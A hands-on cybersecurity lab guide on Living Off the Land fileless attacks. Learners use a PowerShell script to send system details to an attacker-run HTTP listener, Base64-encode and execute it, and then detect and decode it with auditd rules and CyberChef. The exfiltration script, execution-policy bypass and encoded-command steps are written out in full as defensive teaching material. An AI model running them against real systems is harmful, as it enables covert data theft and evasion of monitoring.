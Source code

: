 # Living Off the Land Fileless Malware Attacks

When a threat actor uses tools already installed on a system to complete their attack and blend in with legitimate administrative activities, they are using a technique known as Living Off the Land (LOTL). These attacks are challenging to detect because the tools used often have a legitimate administrative functions within the environment. Identifying LOTL activity can be difficult due to a lack of traditional indicators of compromise and many organizations rely on default logging configurations that do not distinguish between malicious and legitimate IT activity.

This lab incorporates recommendations provided in the joint publication <a href="https://www.cisa.gov/resources-tools/resources/identifying-and-mitigating-living-land-techniques" target="_blank">Identifying and Mitigating Living Off the Land Techniques</a>.

- This lab is expected to take one (1) hour

*Please consider filling out the lab feedback survey at the bottom of your screen. The survey is available to you at any time while conducting the lab.*

**Caution!** You must complete _all_ phases of the lab and complete the mini-challenge to receive your completion certificate. We encourage you to attempt mini-challenges on your own, but links to the solution guides are available in the Mini-Challenge section of the lab document if you need them.

## Learning Objectives
- Explain the concept of fileless malware and how attackers abuse PowerShell for stealthy execution.
- Encode and execute a malicious PowerShell command using Base64.
- Demonstrate data exfiltration using PowerShell over a network using HTTP.
- Simulate an adversary using Living Off the Land techniques to bypass traditional defenses.


## Learner Expectations
- Be comfortable with command line operations
- Have a basic familiarity with PowerShell


## FOCAL and NICE Framework Mappings

This lab maps with <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a> area 5 (Incident Detection and Response).

**NICE Work Role**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">Defensive Cybersecurity</a>

**NICE Tasks**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1084</a>: Identify anomalous network activity
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1299</a>: Determine causes of network alerts
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1347</a>: Detect cybersecurity attacks and intrusions
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1348</a>: Distinguish between benign and potentially malicious cybersecurity attacks and intrusions
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1350</a>: Perform continuous monitoring of system activity

<!-- cut -->

## Scenario
In this lab you are presented with two (2) servers running Ubuntu. One is a base installation and the other has additional logging tools added. After constructing a basic fileless malware attack, you will examine the system logs generated. After adding enhanced logging you will see the additional details about the attack that are revealed.


## System Tools and Credentials

| system | OS type/link |  username | password |
|--------|---------|-----------|----------|
| Attack-Console | Kali | user | tartans|
| Base-Ubuntu | Ubuntu | user | tartans |
| Logging-Ubuntu | Ubuntu | user | tartans |
| Mini-Challenge | Ubuntu | user | tartans |

| &#9888; NOTE |
|---|
| You are given access to the remote systems in this lab. In real world scenarios threat actors gain access through a variety of means such as phishing, using weak or compromised credentials, and exploiting vulnerabilities. |


## Phase 1: Fileless Malware Attacks Using PowerShell
<details>
<summary>
<h3>Phase 1 Introduction</h3>
</summary>
<p>

A tool commonly exploited in Living Off the Land attacks is PowerShell, a powerful scripting language widely used for automation and system administration. Its deep integration with Windows, as well as its ability to integrate with Linux and macOS operating systems, has made it an attractive tool for attackers to use in LOTL attacks.

PowerShell can be used in fileless malware attacks; a type of malicious activity where the malware operates in memory making it harder to detect.

For Phase 1, you will perform a LOTL attack using PowerShell to exfiltrate data from a remote system to the `Attack-Console`

</p>
</details>

<details>
<summary>
<h3>Start an HTTP Listener</h3>
</summary>
<p>

Tools and techniques that allow threat actors to maintain communications with compromised devices are known as Command and Control Infrastructure. Sometimes shortened to C2 or C&C. The implementation of C2 systems can vary greatly, but at their core they provide communication channels for sending instructions, downloading payloads, or receiving exfiltrated data.

You will be using a basic HTTP Listener to act as your C2 system to receive the data you exfiltrate.

1. Open the `Attack-Console` and open FireFox using the shortcut on the Desktop.

2. (**Attack-Console**, **FireFox**) Navigate to `https://skills.hub/lab/files` or click on the **Hosted Files** from the Skills Hub landing page.

3. (**Attack-Console**, **FireFox**) Download the file `httpListener.py`.

| &#129513; WHAT'S THAT SCRIPT DOING? |
| --- |
| A summary of how the `httpListener.py` script works has been provided within the script. Use Visual Studio Code (VSCode) to open it and take a look at how it works. |

4. (**Attack-Console**) Open a Terminal by double-clicking on the Terminal Emulator Desktop shortcut or by clicking on Terminal Emulator in the Panel.

![Attack-Console desktop showing Terminal Emulator shortcut](./img/TERM-OPEN.png)

5. (**Attack-Console**, **Terminal**) Navigate to the Downloads directory using the command `cd /home/user/Downloads`.

![Terminal in Downloads directory after cd command](./img/PH1-HTTP-05.png)

6. (**Attack-Console**, **Terminal**) Start the HTTP Listener using the command `python3 httpListener.py`. The HTTP Listener will remain active as long as the Terminal Window remains open.

![Terminal running python3 httpListener.py script](./img/PH1-HTTP-06.png)

| &#128736; HTTP Listener |
|---|
| The HTTP listener attaches (binds) itself to the IP address of the `Attack-Console` on port `8080`. It listens for HTTP requests to that IP address and port, for example `http://10.5.5.100:8080`, and displays in the Terminal any data it receives. |

7. (**Attack-Console**, **Terminal**) In the Terminal menu, click on **Terminal** > **Set Title**.

![Terminal menu open showing Set Title option](./img/PH1-HTTP-07.png)

8. (**Attack-Console**, **Terminal**) Type "HTTP Listener" into the textbox and press Enter. This names the session "HTTP Listener" and will make it easier to locate later.

![Terminal title set to “HTTP Listener”](./img/PH1-HTTP-08.png)

</p>
</details>

<details>
<summary>
<h3>Use PowerShell to Exfiltrate System Data</h3>
</summary>
<p>

1. From the `Attack-Console`, Open a new Terminal by double-clicking on the Terminal Emulator Desktop shortcut or by clicking on Terminal Emulator in the Panel.

![Attack-Console desktop showing Terminal Emulator shortcut](./img/TERM-OPEN.png)

2. (**Attack-Console**, **Terminal**) Determine the IPv4 address of `Attack-Console` by typing the command `hostname -I | awk '{print $1}'`. This IP address will be used as the target for exfiltrated data. After you have recorded the IPv4 address, you may close the Terminal Window.

![Terminal output showing Attack-Console IPv4 address](./img/PH1-EXFIL-02.png)

3. (**Attack-Console**) Open Visual Studio Code by double-clicking on the Visual Studio Code shortcut on the Desktop.

![Visual Studio Code desktop shortcut](./img/VSCODE-OPEN.png)

4. (**Attack-Console**, **Visual Studio Code**) In the Menu bar, click on **File** > **New Text File** to open a blank text file. You will use this text file to prepare your commands before copying them to the Terminal Emulator.

![VS Code with new text file opened for script](./img/PH1-EXFIL-04.gif)

5. (**Attack-Console**, **Visual Studio Code**) Copy the below PowerShell script into Visual Studio Code.

| &#9888; NOTE |
|---|
| When copying into the virtual machine console, extra spaces or tabs can be inserted. Make sure to remove these spaces so your script matches what you copied. |

```powershell
$info = @{
    'Hostname' = hostname;
    'User' = whoami;
    'IP' = (hostname -I);
} | ConvertTo-Json;

Invoke-WebRequest -Uri 'http://<YOUR_IP_HERE>:8080' `
    -Method Post `
    -Body $info `
    -ContentType 'application/json'
```

6. (**Attack-Console**, **Visual Studio Code**) In line 7 of the PowerShell script, replace the `<YOUR_IP_HERE>` section with the `Attack-Console`'s IP address you identified in Step 2.

![VS Code showing PowerShell script with IP placeholder replaced](./img/PH1-EXFIL-06-IP-REPLACE.gif)

In this script, the Linux commands `hostname`, `whoami` and `hostname -I` are run to retrieve system information from the host. The values are stored in the `$info` hashtable and then converted to a JSON string.

The `Invoke-WebRequest` Cmdlet is used to send an HTTP request to the destination.
- `-Uri 'http://5.5.5.124:8080'` - Specifies the destination server and port.
- `-Method Post` - Sends the data using the HTTP POST method.
- `-Body $info` - Sends the JSON-formatted data stored in the `$info` hashtable.
- `-ContentType 'application/json'` - Specifies that the data being sent is in JSON format.

![Attack-Console `Invoke-WebRequest` Cmdlet](./img/PH1-EXFIL-06.png)

7. (**Attack-Console**) Open a new Terminal by double-clicking on the Terminal Emulator Desktop shortcut or by clicking on Terminal Emulator in the Panel.

![Attack-Console desktop showing Terminal Emulator shortcut](./img/TERM-OPEN.png)

8. (**Attack-Console**, **Terminal**) In the Terminal menu, click on **Terminal** > **Set Title**.

![Terminal menu open showing Set Title option](./img/PH1-EXFIL-08.png)

9. (**Attack-Console**, **Terminal**) Type "SSH Base-Ubuntu" into the textbox and press Enter.

![Terminal title set to "SSH Base-Ubuntu"](./img/PH1-EXFIL-09.png)

10. (**Attack-Console**, **Terminal**) Use SSH to connect to the `Base-Ubuntu` server with the command `ssh user@base-ubuntu`. If asked if you want to continue connecting, type `yes` and press Enter.

![SSH connection attempt to Base-Ubuntu system](./img/PH1-EXFIL-10.png)

11. (**Attack-Console**, **Terminal**) Enter the password `tartans` and press Enter to connect.

12. (**Attack-Console**, **SSH Connection**) Start PowerShell with the command `pwsh -NoProfile -ExecutionPolicy Bypass`.

- `-NoProfile` Ensures that PowerShell starts without loading any user-specific profile scripts to improve both speed and prevent unwanted scripts from interfering.
- `-ExecutionPolicy Bypass` Overrides the system's PowerShell script execution policy allowing the script to run regardless of restrictions. This is used to evade PowerShell security controls.

![PowerShell session started with pwsh -NoProfile -ExecutionPolicy Bypass](./img/PH1-EXFIL-12.png)

| &#129513; SO ANYONE CAN BYPASS AN EXECUTION POLICY? |
| --- |
| While `-ExecutionPolicy Bypass` allows a user to override the local execution policy to run a PowerShell script, administrators are able to block it using tools such as Group Policy Objects (GPO) or AppLocker. These blocks and restrictions are often not in place because PowerShell is a commonly used administrative tool and viewed as "safe". This false safety is exploited by threat actors using Living Off the Land techniques. Putting appropriate restrictions in place greatly limits a threat actor's ability to exploit native tools for malicious activity. |

13. (**Attack-Console**, **Visual Studio Code**) Copy the PowerShell script you crafted above in Step 6 from Visual Studio Code.

14. (**Attack-Console**, **SSH Connection**, **PowerShell Prompt**) Paste the PowerShell script into the PowerShell prompt. Press Enter to execute the commands.

![PowerShell prompt with exfiltration script pasted](./img/PH1-EXFIL-14.png)

*Leave this Terminal and SSH session open and remain within the PowerShell prompt. We will use it again in a later step.*

15. (**Attack-Console**, **Terminal**, **HTTP Listener**) Return to the Terminal Window titled "HTTP Listener". The data you just exfiltrated from `Base-Ubuntu` appears.

![HTTP Listener terminal showing exfiltrated system data](./img/PH1-EXFIL-15.png)

**Knowledge Check Question 1:** *What is the IPv4 address of base-ubuntu in the output of the http-listener.*

</p>
</details>

<details>
<summary>
<h3>Obfuscate Commands Using Base64</h3>
</summary>
<p>

You successfully exfiltrated basic system data using PowerShell! But the commands that were run seem suspicious, especially written in plain text. To cover their actions, threat actors will convert the commands to Base64 before executing them.

1. Return to Visual Studio Code.

2. (**Attack-Console**, **Visual Studio Code**) In the Menu bar, click on **File** > **New Text File** to open a blank text file. You will use this text file to prepare your commands before copying them to the Terminal Emulator.

3. (**Attack-Console**, **Visual Studio Code**) Copy the below PowerShell script into Visual Studio Code.

```powershell
$command = @"
`$info = @{
    'Hostname' = hostname;
    'User' = whoami;
    'IP' = (hostname -I);
} | ConvertTo-Json;
Invoke-WebRequest -Uri 'http://<YOUR_IP_HERE>:8080' -Method Post -Body `$info -ContentType 'application/json'
"@
```

| &#9888; NOTE |
|---|
| When copying into the virtual machine console, extra spaces or tabs can be inserted. Make sure to remove these spaces so your script matches what you copied. |

4. (**Attack-Console**, **Visual Studio Code**) In line 7 of the PowerShell script, replace the `<YOUR_IP_HERE>` section with the `Attack-Console`'s IP address you identified previously.

![VS Code showing PowerShell script with IP replaced](./img/PH1-OBF-04.gif)

5. From the `Attack-Console`, open a new Terminal by double-clicking on the Terminal Emulator Desktop shortcut or by clicking on Terminal Emulator in the Panel. We won't title this Terminal since it will only be used temporarily to create the encoded command.

![Attack-Console desktop showing Terminal Emulator shortcut](./img/TERM-OPEN.png)

6. (**Attack-Console**, **Terminal**)  Start PowerShell with the command `pwsh`.

![Terminal running pwsh command](./img/PH1-OBF-06.png)

7. (**Attack-Console**, **PowerShell Prompt**) Copy the PowerShell script you crafted above in Step 4 from Visual Studio Code.

8. (**Attack-Console**, **SSH Connection**, **PowerShell Prompt**) Paste the PowerShell script into the PowerShell prompt. Press Enter to execute the commands.

| &#128270; INFORMATION |
|---|
| The commands being run are the same ones you executed on the remote system, but here we are storing the data in a hash table variable named `$command`. This variable will be used to convert the commands to Base64 in the following steps |

![PowerShell prompt with script stored in $command variable](./img/PH1-OBF-08.png)

9. (**Attack-Console**, **PowerShell Prompt**) Convert the contents of `$command` to a byte array using Unicode (UTF-16LE) by entering the following command into the PowerShell Prompt.

```powershell
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
```

![PowerShell prompt converting $command to Unicode byte array](./img/PH1-OBF-09.png)

10. (**Attack-Console**, **PowerShell Prompt**) Take the contents of `$bytes` and convert to a Base64 string by entering the following command into the PowerShell Prompt.

```powershell
$encodedCommand = [Convert]::ToBase64String($bytes)
```

![PowerShell prompt converting byte array to Base64 string](./img/PH1-OBF-10.png)

11. (**Attack-Console**, **PowerShell Prompt**) Print the Base64 encoded string stored in `$encodedCommand` to the Terminal by entering the following command into the PowerShell Prompt.

```powershell
Write-Output $encodedCommand
```

![PowerShell prompt displaying Base64 encoded string](./img/PH1-OBF-11.png)

12. (**Attack-Console**) Return to Visual Studio Code.

13. (**Attack-Console**, **Visual Studio Code**) In the Menu bar, click on **File** > **New Text File** to open a blank text file.

14. (**Attack-Console**, **Visual Studio Code**) Copy the Base64 encoded command from the PowerShell Prompt to the text file.

| &#128204; You will use this output several times in the lab, so make sure to keep it handy! |
|---|

15. (**Attack-Console**, **Terminal**) After you have copied the Base64 encoded command, close the Terminal Window.

16. (**Attack-Console**) Return to the Terminal Window titled "SSH Base-Ubuntu".

17. (**Attack-Console**, **SSH Session**) Execute the encoded command by entering the following command, making sure to replace <BASE64> with the Base64 Command you created above in Step 6.

```bash
pwsh -EncodedCommand <BASE64>
```

![SSH session executing pwsh -EncodedCommand <BASE64>](./img/PH1-OBF-17.png)

18. (**Attack-Console**, **Terminal**, **HTTP Listener**) Return to the Terminal Window titled "HTTP Listener". The data exfiltrated from `Base-Ubuntu` appears.

![HTTP Listener terminal showing exfiltrated system data](./img/PH1-OBF-18.png)

| &#129513; KEY POINT |
|---|
| The exfiltrated data is the same because it used the same commands; the only difference was they were obfuscated.|

**Knowledge Check Question 2:** *Which type of encoding did you use to obfuscate the PowerShell script - XOR, ROT13, or Base64?*

</p>
</details>

<details>
<summary>
<h3>Reviewing Log Files</h3>
</summary>
<p>

The system `Base-Ubuntu` is using the default logging enabled when Ubuntu Server is freshly installed. Review the logs to see what traces of your data exfiltration are present.


1. (**Attack-Console**) Return to the Terminal Window titled "SSH Base-Ubuntu".

2. (**Attack-Console**, **SSH Session**) Use `grep` to search the syslog log file for the word "powershell" with the command: `sudo cat /var/log/syslog | grep powershell`.

3. (**Attack-Console**, **SSH Session**) If prompted, enter the `sudo` password `tartans` and press Enter.

4. (**Attack-Console**, **SSH Session**) Reviewing the syslog log file, note there are logs that PowerShell was starting, and it was ready for user input, but there is no record of the commands that were run. The logs also do not indicate which user started PowerShell.

![Syslog showing PowerShell startup entry](./img/PH1-LOG-06.png)

| &#129513; Understanding Default Logging in Syslog |
| --- |
| Reviewing syslog in its default state you notice that it provides only basic system-level information recording events such as service starts/stops, authentication attempts, and kernel messages. This is because syslog is designed for general system logging rather than in-depth security auditing. This level of logging is often insufficient for detecting and identifying threats.<br><br>Later in this lab you will enable additional logging that provides more detailed visibility into system activity. By comparing what is (and isn’t) logged in the default state to the logs you’ll generate later, you’ll gain a better understanding of why proper logging configuration is essential for detecting fileless malware and other advanced threats. |

6. (**Attack-Console**, **SSH Session**) Locate the Phase 1 token with the command `sudo cat /var/log/syslog | grep lab_completion`. Enter this token to advance to Phase 2 of the lab!

![Syslog showing lab_completion token](./img/PH1-LOG-07.png)

7. (**Attack-Console**, **SSH Session**) Close the "SSH Base-Ubuntu" Terminal window.


</p>
</details>

</p>
</details>

## Phase 2: Logging To Help Identify Living Off the Land Attacks
<details>
<summary>
<h3>Phase 2 Introduction</h3>
</summary>
<p>

Audit Daemon (`auditd`) is an auditing framework for Linux that helps system administrators and security professionals track and log system events. It provides detailed insight into system activities, including file access, command execution, user logins, and security policy modifications. By configuring audit rules, administrators can monitor specific files, processes, and system calls, ensuring compliance with security policies and detecting potential threats.
</p>
</details>

<details>
<summary>
<h3>Adding Rules to Auditd</h3>
</summary>
<p>


1. From the `Attack-Console`, open a new Terminal window.

2. (**Attack-Console**, **Terminal**) In the Terminal menu, click on **Terminal** > **Set Title**.

3. (**Attack-Console**, **Terminal**) Type "SSH Logging-Ubuntu" into the textbox and press Enter.

4. (**Attack-Console**, **Terminal**) Use SSH to connect to the `Logging-Ubuntu` server with the command `ssh user@logging-ubuntu`. If asked if you want to continue connecting, type `yes` and press Enter.

![SSH terminal connected to Logging-Ubuntu](./img/PH2-AUD-02.png)

5. (**Attack-Console**, **Terminal**) Enter the password `tartans` and press Enter to connect.

6. (**Attack-Console**, **SSH Session**) Create a new rules file called `powershell.rules` with the command `sudo nano /etc/audit/rules.d/powershell.rules`. If prompted, enter the `sudo` password `tartans` and press Enter.

![Nano editor creating powershell.rules file](./img/PH2-AUD-04.png)

| &#128270; INFORMATION |
|---|
| Component audit rules (here `powershell.rules`) are placed in the audit rules directory (`/etc/audit/rules.d`). For ease of management, multiple rule files can be created and named according to the specific system event(s) being monitored or logged. |

7. (**Attack-Console**, **SSH Session**, **Nano Editor**) Create a rule to audit the execution of the PowerShell binary by entering the following rule.

```rules
-a always,exit -F arch=b64 -S execve -F path=/opt/microsoft/powershell/7/pwsh -F key=powershell_exec
```

This rule will audit the execution of the PowerShell binary by tracking the `execve` system call. Breaking it down further:
- `-a always,exit` - Log every exit of the specified system call (`execve`)
- `-F arch=b64` - Specifies the CPU architecture as 64-bit
- `-F path=/opt/microsoft/powershell/7/pwsh` - Filters to include events involving the PowerShell binary
- `-k powershell_exec` - Assigns a key to the log entry so the audit logs can be easily searched

![Nano editor showing rule to audit PowerShell execution](./img/PH2-AUD-05.png)

8. (**Attack-Console**, **SSH Session**, **Nano Editor**) Write out (save) your changes in Nano by pressing Ctrl+o.

9. (**Attack-Console**, **SSH Session**, **Nano Editor**) Confirm the filename by pressing Enter.

10. (**Attack-Console**, **SSH Session**, **Nano Editor**) Exit Nano by pressing Ctrl+x.

11. (**Attack-Console**, **SSH Session**) Add the `powershell.rules` to the main rules file with the command `sudo augenrules --load`.

| &#128270; INFORMATION |
|---|
| `augenrules` is a script that processes and merges all component audit rules in the `rules.d` directory into the main `audit.rules` file. It processes the rules in order and removes any empty or commented lines. |

12. (**Attack-Console**, **SSH Session**) Verify the rules were successfully added to the main rules file with the command `sudo auditctl -l`.

![auditctl -l output confirming powershell_exec rule](./img/PH2-AUD-10.png)

**Knowledge Check Question 1:** *What is the full path of the PowerShell binary on the logging-ubuntu system?*

</p>
</details>


<details>
<summary>
<h3>Reattempt of Obfuscated Commands Using Base64</h3>
</summary>
<p>

| &#128204; If not already running, please start the HTTP Listener following the steps in Phase 1. |
|---|

1. (**Attack-Console**, **SSH Session**) Execute the encoded command you created in Phase 1 by entering the following command, making sure to replace <BASE64> with the Base64 Command you previously created.

```bash
pwsh -EncodedCommand <BASE64>
```

![SSH terminal running pwsh -EncodedCommand <BASE64>](./img/PH2-OBF-01.png)

2. (**Attack-Console**, **SSH Session**) Search the audit logs for the key `powershell_exec` with the command.

```bash
sudo ausearch -k powershell_exec
```

![SSH terminal showing ausearch log with decoded command details](./img/PH2-OBF-02.png)

3. (**Attack-Console**, **SSH Session**) Compared to the syslog entry you examined at the end of Phase 1, the auditd log contains much more detail, including the command that was run (lines 19 through 25) and the user ID (uid) of the user who executed it (line 29).

```text
01 | time->XXXX XXX  X XX:XX:XX 20XX
02 | type=PROCTITLE msg=audit(1738858549.467:322):
03 | proctitle=70777368002D456E636F646564436F6D6D616E64004A414270414734415A674276414341415051
04 | 4167414541416577414B4143414149414167414341414A774249414738416377423041473441595142744147
05 | 55414A774167414430414941426F41473841637742304147344159514274414755414F77414B414341414941
06 | 41
07 |
08 | type=PATH msg=audit(1738858549.467:322): item=1 name="/lib64/ld-linux-x86-64.so.2"
09 | inode=395840 dev=fc:00 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0
10 | cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0
11 |
12 | type=PATH msg=audit(1738858549.467:322): item=0 name="/usr/bin/pwsh" inode=395563
13 | dev=fc:00 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0
14 | cap_fe=0 cap_fver=0 cap_frootid=0
15 |
16 | type=CWD msg=audit(1738858549.467:322): cwd="/home/user"
17 |
18 | type=EXECVE msg=audit(1738858549.467:322): argc=3 a0="pwsh" a1="-EncodedCommand"
19 | a2="JABpAG4AZgBvACAAPQAgAEAAewAKACAAIAAgACAAJwBIAG8AcwB0AG4AYQBtAGUAJwAgAD0AIABoAG8AcwB0
20 | AG4AYQBtAGUAOwAKACAAIAAgACAAJwBVAHMAZQByACcAIAA9ACAAdwBoAG8AYQBtAGkAOwAKACAAIAAgACAAJwBJ
21 | AFAAJwAgAD0AIAAoAGgAbwBzAHQAbgBhAG0AZQAgAC0ASQApADsACgB9ACAAfAAgAEMAbwBuAHYAZQByAHQAVABv
22 | AC0ASgBzAG8AbgA7AAoASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACcAaAB0
23 | AHQAcAA6AC8ALwAxADAALgA1AC4ANQAuADEAMgA0ADoAOAAwADgAMAAnACAALQBNAGUAdABoAG8AZAAgAFAAbwBz
24 | AHQAIAAtAEIAbwBkAHkAIAAkAGkAbgBmAG8AIAAtAEMAbwBuAHQAZQBuAHQAVAB5AHAAZQAgACcAYQBwAHAAbABp
25 | AGMAYQB0AGkAbwBuAC8AagBzAG8AbgAnAA=="
26 |
27 | type=SYSCALL msg=audit(1738858549.467:322): arch=c000003e syscall=59 success=yes exit=0
28 | a0=55b3d0982ed0 a1=55b3d0862ce0 a2=55b3d0977b00 a3=55b3d0926cf0 items=2 ppid=1613
29 | pid=1819 auid=1000 uid=1000 gid=1000 euid=1000 suid=1000 fsuid=1000 egid=1000 sgid=1000
30 | fsgid=1000 tty=pts0 ses=1 comm="pwsh" exe="/opt/microsoft/powershell/7/pwsh"
31 | subj=unconfined key="powershell_exec"
```

4. (**Attack-Console**, **SSH Session**) The username of the person who executed the command can be found by searching the `/etc/passwd` file for the UID with the command `cat /etc/passwd | grep 1000`.

![SSH terminal showing /etc/passwd entry for UID 1000](./img/PH2-OBF-04.png)

Since you ran the command, the UID traces back to the `user` user. When investigating suspicious PowerShell commands being run, being able to identify the user account is helpful to narrow your investigation.


| &#128270; WHAT IS `/etc/passwd` |
| --- |
| The `/etc/passwd` file is a system file that stores information about user accounts. This file is readable by all users but only writable by the root user. Each line represents a single user and contains several fields separated by colons (`:`). These fields include:<br><br>- **Username** – The login name of the user.<br>- **Password Placeholder** – Historically, this contained the actual password hash, but now it typically contains an x, indicating the password is stored securely in `/etc/shadow`.<br>- **User ID (UID)** – A unique numerical identifier for the user. The root user always has UID 0.<br>- **Group ID (GID)** – The primary group associated with the user.<br>- **User Info (GECOS field)** – An optional field that can contain a user’s full name or other information.<br>- **Home Directory** – The path to the user’s home folder.<br>- **Login Shell** – The default shell that runs when the user logs in (e.g., `/bin/bash`). |


**Knowledge Check Question 2:** *What system file contains information about a user's account?*

5. (**Attack-Console**, **SSH Session**) Locate the Phase 2 token with the command `sudo cat /var/log/syslog | grep lab_completion`. Enter this token to advance to the Mini-Challenge of the lab!

| &#129513; A Word on Logging: |
| --- |
| The configuration used in this lab doesn't even begin to scratch the surface of the types of logging that can be enabled using `auditd`. While the initial impulse may be to enable everything, keep in mind the impact this will have. A high volume of logs can create a large amount of noise making it easier to miss outliers and leading to alert fatigue. Having an understanding of your environment baseline and tuning your logging appropriately will help reduce noise and improve your detection accuracy. |
</p>
</details>

<details>
<summary>
<h3>Decoding The Command</h3>
</summary>
<p>

In the lab environment you know the commands executed by the Base64 encoded command. But what if you encountered this during an investigation? Fortunately just as you were able to encode the commands, you can decode them to see what was run. To do this we will use CyberChef, a web application that can be used for encryption, encoding, compression, and data analysis.

1. (**Attack-Console**) Open FireFox.

2. (**Attack-Console**, **FireFox**) Click on CyberChef from the Bookmarks Toolbar.

3. (**Attack-Console**, **FireFox**, **CyberChef**) In the upper-right "Input" box, paste the encoded command from the log file.

![CyberChef input box with Base64 string pasted](./img/PH3-CC-03.png)

4. (**Attack-Console**, **FireFox**, **CyberChef**) In the Operations pane (on the left), drag "From Base64" to the Recipe box.

![CyberChef recipe box with From Base64 operation](./img/PH3-CC-04.png)

5. (**Attack-Console**, **FireFox**, **CyberChef**) In the Operations pane's search field, search for "null".

6. (**Attack-Console**, **FireFox**, **CyberChef**) In the Operations pane, drag "Remove null bytes" to the recipe box.

![CyberChef recipe box with Remove null bytes operation](./img/PH3-CC-06.png)

7. (**Attack-Console**, **FireFox**, **CyberChef**) With the Recipe built, examine the "Output" box. This is the decoded command. Compare it to the commands you used earlier and note that they match!

![CyberChef output box showing decoded PowerShell command](./img/PH3-CC-07.png)
</p>
</details>

</p>
</details>

## Mini-Challenge

<details>
<summary>
<h3>Click Here to Access the Mini-Challenge</h3>
</summary>
<p>

A new server (`mini-challenge`) has been added to the environment. Syslog shows PowerShell is being launched, but it is not known *who* is running the commands or *what* commands are being run.

*A solution guide link is available following the grading section, should you need it.*

### Mini-Challenge Objectives
- Configure enhanced logging on `mini-challenge` to identify who is running the PowerShell Commands
- Identify what PowerShell command is being run
- Decode the PowerShell command and locate the Secret Token

Note that you may need to wait a few minutes before the Powershell attempts appear in the logs *after* you configure enhanced logging.

### Grading Check

- Based on the User ID (UID), what is the **username** of the account that is running the PowerShell commands?

- What was the Secret Token being sent by the threat actor?


`Copy any token or flag strings to the corresponding question submission field to receive credit.`

*Please attempt the mini-challenge as best you can, but if you get stuck you can use the solution guide found <a href="https://github.com/cisagov/prescup-challenges/tree/main/skilling-continuation-labs/living-off-the-land-attacks/solution/README.md" target="_blank">here</a> for assistance.*
</p>
</details>

<details>
<summary>
<h2>Lab Wrap Up</h2>
</summary>
<p>

### Conclusion

By completing this lab you have become more familiar with attacks that use native tools to avoid detection.

To recap:
- You exfiltrated data using PowerShell Commands.
- You obfuscated your commands using Base64.
- You created `auditd` rules to detect and capture PowerShell commands.
- You decoded a Base64 PowerShell command.

Skills exercised:
- S0838: Skill in identifying anomalous activities
- S0839: Skill in identifying exploited system weaknesses
- S0840: Skill in identifying misuse activities
- S0846: Skill in monitoring system activity

Enabling additional logging to detect abuse of PowerShell increases the likelihood of early detection and response to Living Off the Land style attacks.

### References

 - <a href="https://www.cisa.gov/resources-tools/resources/identifying-and-mitigating-living-land-techniques" target="_blank">Identifying and Mitigating Living Off the Land Techniques</a>
 - <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL) Plan</a>
 - <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">NICE Framework</a>
